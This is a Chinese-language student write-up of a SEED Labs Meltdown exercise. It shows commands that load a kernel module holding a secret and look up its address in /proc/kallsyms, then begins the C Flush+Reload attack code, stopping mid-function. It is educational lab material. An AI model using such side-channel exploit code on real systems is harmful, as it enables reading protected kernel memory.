 
**实验**

```
$ gcc -march=native -o FlushReload FlushReload.c
$ ./FlushReload
```

**实验效果**

![image-20210319132557949](C:\Users\Panda\AppData\Roaming\Typora\typora-user-images\image-20210319132557949.png)

## 任务三：熔断攻击

### step 1：将secret注入内核

**内核模块**

```
static char secret[8] = {'S','E','E','D','L','a','b','s'};
```

**注入内核**

```
$ make
$ sudo insmod MeltdownKernel.ko
$ sudo cat /proc/kallsyms | grep secret
```

**效果**

![image-20210319133121311](C:\Users\Panda\AppData\Roaming\Typora\typora-user-images\image-20210319133121311.png)

之后使用`UserAcess`试图读取secret，会产生segmentation fault

```
$ gcc -o UserAccess UserAccess.c
$ ./UserAccess
```

### step 2：实施攻击

**代码**

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (200)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

```